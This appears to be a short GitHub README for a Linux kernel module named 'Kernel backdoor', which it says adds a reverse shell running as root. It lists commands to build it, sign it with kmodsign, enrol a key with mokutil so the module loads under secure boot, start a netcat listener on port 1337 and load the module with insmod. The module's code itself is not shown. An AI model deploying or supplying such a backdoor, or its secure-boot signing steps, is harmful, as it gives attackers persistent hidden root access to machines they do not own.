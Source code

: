 # Kernel backdoor

## Description

This adds a reverse shell running under userspace root

## Usage

Build:

```
make
```

Sign the module (for secure boot):

```
kmodsign sha512 ~/kernel.key ~/kernel.crt backdoor.ko
```

Start listener:

```
nc -lnvp 1337
```

Insert the module:

```
sudo insmod backdoor.ko
```

To add your cert to secure boot (done once):

```
sudo mokutil --import ~/kernel.crt
```

and reboot

